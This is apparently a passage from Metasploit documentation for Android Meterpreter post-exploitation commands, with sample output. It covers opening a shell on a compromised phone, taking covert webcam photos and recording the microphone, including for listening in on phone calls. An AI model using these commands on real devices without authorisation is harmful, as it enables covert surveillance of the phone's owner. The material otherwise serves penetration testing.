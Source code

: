**shell**

The ```shell``` command allows you to interact with a shell:

```
meterpreter > shell
Process 1 created.
Channel 1 created.
id
uid=10231(u0_a231) gid=10231(u0_a231) groups=1015(sdcard_rw),1028(sdcard_r),3003(inet),9997(everybody),50231(all_a231) context=u:r:untrusted_app:s0
```

To get back to the Meterpreter prompt, you can do: [CTRL]+[Z]

**sysinfo**

The ```sysinfo``` command shows you basic information about the Android device.

```
meterpreter > sysinfo
Computer    : localhost
OS          : Android 5.1.1 - Linux 3.10.61-6309174 (aarch64)
Meterpreter : java/android
```

**webcam_list**

The ```webcam_list``` command shows a list of webcams you could use for the ```webcam_snap```
command. Example:

```
meterpreter > webcam_list
1: Back Camera
2: Front Camera
```

**webcam_snap**

The ```webcam_snap``` command takes a picture from the device. You will have to use the
```webcam_list``` command to figure out which camera to use. Example:

```
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /Users/user/rapid7/msf/uFWJXeQt.jpeg
```

**record_mic**

The ```record_mic``` command records audio. Good for listening to a phone conversation, as well as
other uses. Example:

```
meterpreter > record_mic -d 20
[*] Starting...
[*] Stopped
Audio saved to: /Users/user/rapid7/msf/YAUtubCR.wav
```

**activity_start**

The ```activity_start``` command is an execute command by starting an Android activity from a URI
string.

**check_root**

The ```check_root``` command detects whether your payload is running as root or not. Example:

```